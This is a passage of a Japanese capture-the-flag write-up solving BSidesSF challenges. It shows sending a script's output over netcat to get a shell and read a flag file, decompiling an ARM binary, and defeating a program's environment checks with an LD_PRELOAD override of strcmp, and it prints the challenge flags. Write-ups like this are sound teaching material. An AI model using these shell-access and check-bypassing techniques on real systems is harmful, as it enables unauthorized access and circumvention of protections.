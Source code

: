 送ったものをそのまま実行してくれます。めんどくさいのでさっきのコードをそのまま使いましょう。

```
$ (python s.py; cat) | nc easyshell64-efb598a6.ctf.bsidessf.net 5253
Send me stuff!! We're 64 bits!
cat /home/ctf/flag.txt
FLAG:e8864c381822ec7cf97f5516745411f5
```

```
FLAG:e8864c381822ec7cf97f5516745411f5
```

## [Reversing 100] Easyarm

[Retargetable Decompiler](https://retdec.com/) にバイナリを投げると、

```c
...
    if (*(char *)(*v2 + 18) == 0 || *(char *)(*v2 + 18) != 97) {
        ...
    }

    if (*(char *)(*v2 + 15) == 0 || *(char *)(*v2 + 15) != 95) {
        ...
    }
...
```

という感じで延々続く部分がありました。`!=` で grep して加工するとフラグが出てきました。

```
Flag:ARM_Is_Not_Scary
```

## [Reversing 200] Skipper2

いろいろ環境のチェックをして、全部 OK ならフラグが表示されるというバイナリです。文字列の比較には `strcmp` を使っているようなので、置き換えてしまいましょう。

```c
int strcmp(char *s1, char *s2) {
  int i;
  for (i = 0; s2[i]; i++) {
    s1[i] = s2[i];
  }
  s1[i] = '\0';
  return 0;
}
```

```
$ gcc -shared -fPIC -o a.so a.c
$ LD_PRELOAD=./a.so ./skipper2-32
Computer name: kali-i386
OS version: 4.0.0
GenuineIntel


The key is: FLAG:18ee7c71d2794f546ca23e6858de0bc6
```
